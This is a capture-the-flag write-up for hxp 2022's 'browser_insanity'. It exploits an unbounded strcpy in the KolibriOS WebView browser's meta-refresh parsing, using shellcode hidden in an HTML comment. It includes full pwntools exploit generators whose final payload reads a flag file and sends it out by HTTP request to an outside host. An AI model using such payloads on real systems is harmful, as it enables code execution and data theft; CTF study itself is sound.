## Intro

This week I participated in [hxp 2022](https://ctftime.org/event/1845) and I've managed to solve a challenge called `browser_insanity`. It was a pwn challenge where we need to read arbitrary file in the filesystem.


## Description

Ever wanted to hack a tiny OS written in x86-32 assembly and C\-\-? Me neither but it’s hxp CTF 2022.

Give us an URL, the user in the KolibriOS VM will visit it. You need to get the flag from `/hd0/1/flag.txt`
The source code you could get from: https://repo.or.cz/kolibrios.git/tree/7fc85957a89671d27f48181d15e386cd83ee7f1a

The browser is at `programs/cmm/browser` in the source tree. It relies on a couple of different libraries (e.g. `programs/develop/libraries`), grep around.
KolibriOS has its own debugger, `DEBUG`, available on the desktop. It may come in useful.
The kernel ABI is at `kernel/trunk/docs/sysfuncs.txt`.

For building random pieces: `INCLUDE=path_to_header.inc fasm -m 1000000 -s debug.s file.asm file.out`

[Download](https://2022.ctf.link/assets/files/browser_insanity-a0dafc61366d8e9a.tar.xz)

So basically we are provided with an unmodified [KalibriOS](https://kolibrios.org/en/) image that is run by qemu-system. `enter_challenge.py` is a proxy between us and KolibriOS - it will take URL from us and pass it to the WebView browser inside KolibriOS. The first idea is to create a page that will be visited and will allow the exploitation of some vulnerability.


## Environment

To do a bit of reconnaissance I started the VM using slightly modified `run_vm.sh` script which loads the `kolibri.img` and looked around. After booting we see:



There is also a built-in debugger:



We can load programs into it using `load` command, so in order to debug webview we can run `load /sys/network/webview`. After loading we see 32bit assembly :) I've experimented with it for a little and looks like all memory is executable, if we had control over `ebp`, we could execute arbitrary code. Sounds good.


## Vulnerability

The WebView browser is written in C\-\- language which is similar to C, so reading code was not a problem. The browser has many dependency libraries. During the CTF I was thinking about making a simple fuzzer which will test the browser code and look for crashes, but first I've decided to look around for a bit longer and I've found an interesting line of code in one of the functions responsible for setting styles for html elements:

```c
void TWebBrowser::tag_meta_xml()
{
	if (custom_encoding == -1) if (tag.get_value_of("charset")) 
	|| (tag.get_value_of("content")) || (tag.get_value_of("encoding"))
	{
		EDX = strrchr(tag.value, '=') + tag.value; //search in content=
		if (ESBYTE[EDX] == '"') EDX++;
		strlwr(EDX);
		EAX = get_encoding_type_by_name(EDX);
		if (EAX!=-1) ChangeEncoding(EAX);
	}
	if (streq(tag.get_value_of("http-equiv"), "refresh")) && (tag.get_value_of("content")) {
		if (tag.value = strstri(tag.value, "url")) strcpy(#redirect, tag.value);
	}
	if (streq(tag.get_value_of("name"), "application")) {
	    if (application_mode) {
	        if (tag.get_number_of("left")) {
                MoveSize(tag.number,-1,-1,-1);
            }
            if (tag.get_number_of("top")) {
                MoveSize(-1,tag.number,-1,-1);
            }
            if (tag.get_number_of("width")) {
                MoveSize(-1,-1,tag.number,-1);
            }
            if (tag.get_number_of("height")) {
                MoveSize(-1,-1,-1,tag.number);
            }
	    }
    }
}
```

Notice line number 13. There is unrestricted `strcpy`, so we can easily utilize that to overwrite some memory. `#redirect` field is a member of the following global (?) struct:
```c
struct TWebBrowser {
	llist list;
	STYLE style;
	dword draw_y, draw_x, draw_w, left_gap;
	dword o_bufpointer;
	int cur_encoding, custom_encoding;
	bool link, t_html, t_body;
	dword bufpointer;
	dword bufsize;
	dword is_html;
	collection img_url;
	char header[150];
	char linebuf[500];
	char redirect[URL_SIZE];

	bool secondrun;

	void SetStyle();
...
```

The logic populating `tag.value` is located in `programs\cmm\browser\TWB\parse_tag.h`. Unfortunately there is call to `strlwr` and `strrtrim` in `get_next_param`, so `tag.value` won't contain whitespaces and upper letters. 

## Exploitation

### Checking if bug is exploitable

Let's create a simple `index.html` page with a super long `meta` element with `http-equiv` tag set to `refresh` and `content` tag starting with `url` and containing a lot of characters (which are truncated on the snippet below):

```html
<!DOCTYPE html>
<html>

<head>
  <meta http-equiv="refresh"  content="urlAAAAAAAAAAAAAA..." />
</head>

<body>
</body>

</html>
```

Now we need to host the page somewhere, run the WebView under the debugger and visit the page.



Page fault! Now we need to somehow check what happened and where. To do so, it would be good to set breakpoint before call to faulty `strcpy`. I found the binary in `/sys/network` but I couldn't disassemble it. After a little bit of googling I figured out that it is packed by tool called `kpack`, so to unpack it I used [kunpack](http://board.kolibrios.org/viewtopic.php?f=6&t=1954#p38497) and then I was able to load it into disassembler (binary does not have symbols). After a while I had the address when binary is calling our `strcpy` - 0x6a8b, so we can easily put the breakpoint there (no ASLR here!) and inspect where data is being copied.



`edi` points to our `#redirect` field, `esi` points data to be copied. Notice that `esp` is not that far from `edi`, so maybe we can somehow overflow the stack? Crafting another `.html` file with a `content` value set to `url`+`58610*'A'` should overflow the return address from `strcpy`. 



We have it - we are controlling, so now when code does a `ret` from `strcpy` it jumps to `0x41414141`. You can immediately think about smuggling a malicious code in our tag, but unfortunately it cannot contain a null byte, because `strcpy` will stop reading it further and even if the payload would be null-less, tag value is "lowerized" (`strlwr`) - dead end? 

### Crafting the exploit

Not really, we can utilize the html comments, they shouldn't be mutated in any way. Here is the code responsible for parsing them:

```c
bool _tag::parse(dword _bufpos, bufend)
{
	bool retok = true;
	dword bufpos = ESDWORD[_bufpos];
	dword params, paramsend;

	dword closepos;
	dword whitepos;
	dword openpos;

	if (name) strcpy(#prior, #name); else prior = '\0';
	name = '\0';
	attributes.drop();
	values.drop();		

	if (!strncmp(bufpos,"!--",3))
	{
		bufpos+=3;
		//STRSTR
		while (strncmp(bufpos,"-->",3)!=0) && (bufpos < bufend)
		{
			bufpos++;
		}
		bufpos+=2;
		retok = false;
		goto _RET;
	}
...
```

so we can easily put our payload in the comment, but we need to find out where it will be located in memory. We can craft a simple web page and put a breakpoint in function above. Let's put breakpoint on address `0x3A43`, so we can check out where our comment is.




As we can see, `esi` register points to our data, so we want to jump to `0x31c54b` (`1\xc5K`), so the `K` will be turned into `k`, which means that the code will jump to `0x31c56b`. We can handle that by putting bunch of `nop`s in our payload. We also want to load a file into memory, so we have to use some syscalls to do it. Quick look at the docs reveals needed syscall:

```
======================================================================
========== Function 68, subfunction 27 - load file ===================
======================================================================
Parameters:
  * eax = 68 - function number
  * ebx = 27 - subfunction number
  * ecx = pointer to the string with path to file,
    rules of path forming can be found in function 70 description.
Returned value:
  * eax = pointer to the loaded file, or zero
  * edx = size of the loaded file, or zero
Remarks:
  * function loads file and unpacks, if necessary
  * Before this call one must initialize process heap by call to
    subfunction 11.  
```

Code for crafting the payload has the following form (it is also available on my [github](https://github.com/rivit98/ctf-writeups/tree/master/hxpctf_2022/browser_insanity)):

```python
from pwn import *

with open("index.html", 'rb') as f:
    templ = f.read()

payload_start = 0x31c552
str_addr = payload_start+0x80
flag_location = b'/hd0/1/flag.txt\0'

context.arch = 'i386'
payload = asm('nop') * 0x30 +  asm(f"""
mov eax, 0x44
mov ebx, 0x1b
mov ecx, {str_addr}
int 0x40
""")

padding = (str_addr - payload_start) - len(payload)
payload += b'\x90' * padding
payload += flag_location

templ = templ.replace(b'REPLACE', payload).replace(b'JUMP_ADDR', p32(payload_start).replace(p8(0), b''))

with open("index.html2", 'wb') as f:
    f.write(templ)
```

Now launching `WebView` under the debugger and stepping a little over the code confirms that the exploit works and flag was loaded into memory.






Now it is time to exfiltrate the flag. We know that the VM has access to the internet, so we can make HTTP request with flag as a parameter. I've found useful function which can do work for us:

```c
bool GetUrl(dword _http_url)
{
	char new_url_full[URL_SIZE+1];

	if (!strncmp(_http_url,"http:",5)) {
		http.get(_http_url);
		return true;
	} else if (!strncmp(_http_url,"https://",8)) {
		strcpy(#new_url_full, "http://gate.aspero.pro/?site=");
		strncat(#new_url_full, _http_url, URL_SIZE);
		http.get(#new_url_full);
		return true;
	}
	return false;
}
```

Actually, we will use only `http.get` function. Quick check in IDA reveals that address where we need to jump is: `0x1137c`, so we just need to create the url for HTTP request. Final exploit generator looks like this:

```python
from pwn import *

with open("index.html", 'rb') as f:
    templ = f.read()

payload_start = 0x31c552
str_addr = payload_start+0x80
flag_location = b'/hd0/1/flag.txt\0'
base_url = b'http://rivit.dev:13378/?c='

context.arch = 'i386'
payload = asm('nop') * 0x30 +  asm(f"""
mov eax, 0x44
mov ebx, 0x1b
mov ecx, {str_addr}
int 0x40

mov esi, eax
mov edi, {str_addr+len(flag_location)+len(base_url)}

loop:
    lodsb
    stosb
    test al, al
jnz loop

push {str_addr+len(flag_location)}
push 0x1137c
ret
""")

padding = (str_addr - payload_start) - len(payload)
payload += b'\x90' * padding
payload += flag_location
payload += base_url

templ = templ.replace(b'REPLACE', payload).replace(b'JUMP_ADDR', p32(payload_start).replace(p8(0), b''))

with open("index.html2", 'wb') as f:
    f.write(templ)
```

### Running the exploit locally

Let's run the browser and put breakpoint before `http.get` call.



And after continuing, we see that something hit the web server :)



### Running the exploit on a remote




`hxp{wHy_h4cK_Chr0m3_wh3n_y0u_c4n_hAcK_BROWSER}`


## Summary

This was the first time I exploited a custom OS and it was a great experience. I feel like the WebView browser is damn buggy and there are multiple ways to get code execution. Overall it was a good challenge, I enjoyed solving it.
